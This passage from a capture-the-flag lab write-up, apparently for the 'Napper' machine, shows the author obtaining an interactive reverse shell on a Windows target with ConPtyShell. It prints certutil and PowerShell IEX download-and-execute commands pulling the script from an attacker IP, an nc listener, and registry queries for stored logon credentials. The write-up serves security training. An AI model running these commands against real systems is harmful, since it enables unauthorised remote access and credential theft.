 Prior to continue with the next phase of **Recognition**, I am going to migrate to **[ConPtyShell](https://github.com/antonioCoco/ConPtyShell){:target="_blank"}** to have a better mobility. After modifying the **ConPtyShell** script, so that after downloading and interpreting it, it automatically sends me the **Reverse Shell** and after having some problems when transferring the script, I achieve to have a **Full Iteractive Shell**. I perform some recon commands to gather information to find some vulnerability or misconfiguration, I find a **SeDelegateSessionUserImpersonatePrivilege** privilege that seems intriguing but does not give me a possible attack vector for the moment.

> **[SeDelegateSessionUserImpersonatePrivilege](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/user-rights-assignment){:target="_blank"}**: Impersonate a client after authentication.

> **Attacker Machine:**

```bash
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1

nvim Invoke-ConPtyShell.ps1
cat !$ | tail -n 2
# Invoke-ConPtyShell -RemoteIp 10.10.14.16 -RemotePort 443 -Rows 29 -Cols 128

impacket-smbserver smbFolder $(pwd) -smb2support
# or:
# python3 -m http.server 80

nc -nlvp 443
```

> **Victime Machine:**

```cmd
certutil -urlcache -f -split http://10.10.14.16/Invoke-ConPtyShell.ps1        # :(
Import-Module .\Invoke-ConPtyShell.ps1
Invoke-ConPtyShell -RemoteIp 10.10.14.16 -RemotePort 443 -Rows 29 -Cols 128   # :(

certutil -urlcache -f -split http://10.10.14.16/Invoke-ConPtyShell.ps1        # :)
# or:
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-ConPtyShell.ps1')

# [Ctrl^z]
stty raw -echo; fg          # [ENTER][ENTER]

whoami /priv
whoami /all
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON"      # :(
```

<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_037.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_038.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_039.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_040.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_041.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_042.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_043.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>